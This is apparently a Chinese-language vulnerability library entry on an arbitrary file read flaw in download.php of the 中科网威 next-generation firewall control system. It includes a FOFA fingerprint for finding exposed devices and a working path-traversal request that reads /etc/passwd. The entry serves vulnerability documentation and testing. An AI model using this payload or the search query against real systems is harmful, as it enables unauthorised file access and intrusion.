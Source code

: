 ```yaml
---
title: 中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - 中科网威
---
```


# 中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞

## 漏洞描述

中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞, 攻击者通过漏洞可以读取服务器上的文件

## 漏洞影响

> [!NOTE]
>
> 中科网威 下一代防火墙控制系统

## FOFA

> [!NOTE]
>
> body="Get_Verify_Info(hex_md5(user_string)."

## 漏洞复现

登录页面如下

![image-20210531184103009](/img/20210924020235915488.png)

漏洞存在于 download.php

![image-20210602161941678](/img/20210924020237027246.png)

任意点击后抓包，更改 **toolname** 参数

```
/download.php?&class=vpn&toolname=../../../../../../../../etc/passwd
```

![image-20210602162110747](/img/20210924020237807580.png)

## Goby & POC

![image-20210602162300324](/img/20210924020238117826.png)